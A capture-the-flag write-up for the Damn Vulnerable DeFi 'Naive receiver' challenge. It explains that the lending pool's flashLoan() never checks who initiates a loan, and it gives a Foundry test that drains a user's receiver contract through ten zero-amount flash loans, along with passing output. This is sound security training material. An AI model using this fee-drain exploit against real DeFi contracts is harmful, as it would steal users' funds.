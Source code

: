 #	Damn Vulnerable DeFi (Foundry version)
- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

##	Challenge #2 - Naive receiver - Description

There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiving flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

##  Scope

| File Name                                                                             | SHA-1 Hash                               |
| ------------------------------------------------------------------------------------- | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/naive-receiver/FlashLoanReceiver.sol       | 2d0b8afa012f14ced93983753579427e18237343 |
| damn-vulnerable-defi-foundry/src/Contracts/naive-receiver/NaiveReceiverLenderPool.sol | a27449df324b72e086fc07334775b0e582ba4032 |

##  Plan

From the description we can understand that we must drain all 10 ETH from user's contract. Most probably by constantly receiving flash loans as this lending pool offering `quite expensive` flash loans. So, we are looking for a missing check or not proper check of whoever is requesting a flash loan if he is the owner of the contract.

## Solution

<details>
    <summary>Description</summary>

In function [`flashLoan()`](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/naive-receiver/NaiveReceiverLenderPool.sol#L24) there are two checks:
1.  [NotEnoughETHInPool](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/naive-receiver/NaiveReceiverLenderPool.sol#L29)

    ```solidity
    if (balanceBefore < borrowAmount) revert NotEnoughETHInPool();
    ```

2.  [BorrowerMustBeADeployedContract](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/naive-receiver/NaiveReceiverLenderPool.sol#L30)

    ```solidity
    if (!borrower.isContract()) revert BorrowerMustBeADeployedContract();
    ```

None of them are checking if the borrower is the owner of the contract and so anyone can make the transaction.

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/naive-receiver/NaiveReceiver.t.sol</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {Utilities} from "../../utils/Utilities.sol";
import "forge-std/Test.sol";

import {FlashLoanReceiver} from "../../../src/Contracts/naive-receiver/FlashLoanReceiver.sol";
import {NaiveReceiverLenderPool} from "../../../src/Contracts/naive-receiver/NaiveReceiverLenderPool.sol";

contract NaiveReceiver is Test {
    uint256 internal constant ETHER_IN_POOL = 1_000e18;
    uint256 internal constant ETHER_IN_RECEIVER = 10e18;

    Utilities internal utils;
    NaiveReceiverLenderPool internal naiveReceiverLenderPool;
    FlashLoanReceiver internal flashLoanReceiver;
    address payable internal user;
    address payable internal attacker;

    function setUp() public {
        utils = new Utilities();
        address payable[] memory users = utils.createUsers(2);
        user = users[0];
        attacker = users[1];

        vm.label(user, "User");
        vm.label(attacker, "Attacker");

        naiveReceiverLenderPool = new NaiveReceiverLenderPool();
        vm.label(
            address(naiveReceiverLenderPool),
            "Naive Receiver Lender Pool"
        );
        vm.deal(address(naiveReceiverLenderPool), ETHER_IN_POOL);

        assertEq(address(naiveReceiverLenderPool).balance, ETHER_IN_POOL);
        assertEq(naiveReceiverLenderPool.fixedFee(), 1e18);

        flashLoanReceiver = new FlashLoanReceiver(
            payable(naiveReceiverLenderPool)
        );
        vm.label(address(flashLoanReceiver), "Flash Loan Receiver");
        vm.deal(address(flashLoanReceiver), ETHER_IN_RECEIVER);

        assertEq(address(flashLoanReceiver).balance, ETHER_IN_RECEIVER);

        console.log(unicode"🧨 PREPARED TO BREAK THINGS 🧨");
    }

    function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        for (uint256 i = 0; i < 10; i++) {
            naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 0);
        }
        vm.stopPrank();
        /** EXPLOIT END **/
        validation();
    }

    function validation() internal {
        // All ETH has been drained from the receiver
        assertEq(address(flashLoanReceiver).balance, 0);
        assertEq(
            address(naiveReceiverLenderPool).balance,
            ETHER_IN_POOL + ETHER_IN_RECEIVER
        );
    }
}
```
</details>

### Proof of Concept

```
./run.sh 2
[⠃] Compiling...
[⠒] Compiling 1 files with 0.8.12
[⠘] Solc 0.8.12 finished in 1.68s
Compiler run successful

Running 1 test for test/Levels/naive-receiver/NaiveReceiver.t.sol:NaiveReceiver
[PASS] testExploit() (gas: 123102)
Logs:
  🧨 PREPARED TO BREAK THINGS 🧨

Test result: ok. 1 passed; 0 failed; finished in 2.79ms
```
